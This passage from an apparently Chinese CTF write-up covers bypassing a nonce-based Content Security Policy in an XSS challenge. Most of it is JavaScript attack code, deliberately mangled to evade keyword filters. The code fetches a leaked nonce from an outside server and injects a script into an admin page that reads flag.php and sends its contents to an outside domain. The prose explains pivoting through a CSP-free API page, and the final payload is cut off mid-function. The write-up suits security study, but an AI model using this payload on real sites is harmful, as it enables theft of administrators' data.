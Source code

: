 ```
<scriscriptpt>
  functioonn getNoonnce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://115.28.78.16/noonnce.php", false);
    xhr.send();
    return xhr.respoonnseText;
  }
 
  setTimeout(pollNoonnce, 1000);
  functioonn pollNoonnce() {
    var noonnce = getNoonnce();

    if (noonnce == "") {
      setTimeout(pollNoonnce, 1000);
    } else {
      attack(noonnce);
    }
  }

  functioonn attack(noonnce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/xsstest_new/admin/#"
    var payload = "<scriscriptpt noonnce='" + noonnce + "'>var xmlhttp = new XMLHttpRequest(); xmlhttp.open(\"GET\", \"flag.php\", false); xmlhttp.send(); var mess = xmlhttp.respoonnse; var xhr = new XMLHttpRequest(); locatioonn.href=\"http://0xb.pw?\"+mess;</scr" + "ipt>";
    var validPayload = "<scrscriptipt>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validPayload;
    document.body.appendChild(iframe);
  }

  setTimeout("document.getElementById('frame').coonntentWindow.document.forms[0].submit();", 3000);

</sscriptcript>
```

由于xhr需要跨域请求nonce.php，而前台的站中含有csp，这是一个预设的坑，细心的人不难发现，用户的信息是通过请求api/getmessage.php获取的

![image_1be4dlo64vi3vtl1ee8hu31g8gm.png-56.5kB][5]

我们可以注意这个页面并没有csp，所以构造跳转到getmessage.php，然后服务端设置`header("Access-Control-Allow-Origin:*");`，成功绕过


全部payload如下

```
<iframe id="frame" src="http://127.0.0.1/xsstest_new/adminshigesha233e3333/#<form method='post' actioonn='http://115.28.78.16/noonnce.php'><input type='submit' value='test!'><textarea name='noonnce'>"></iframe>

<scriscriptpt>
  if(locatioonn.pathname != "/api/getmessage.php"){
    window.locatioonn.href = "http://" + document.domain + "/api/getmessage.php"
  }


  functioonn getNoonnce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://115.28.78.16/noonnce.php", false);
    xhr.send();
    return xhr.respoonnseText;
  }
 
  setTimeout(pollNoonnce, 1000);
  functioonn pollNoonnce() {
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png
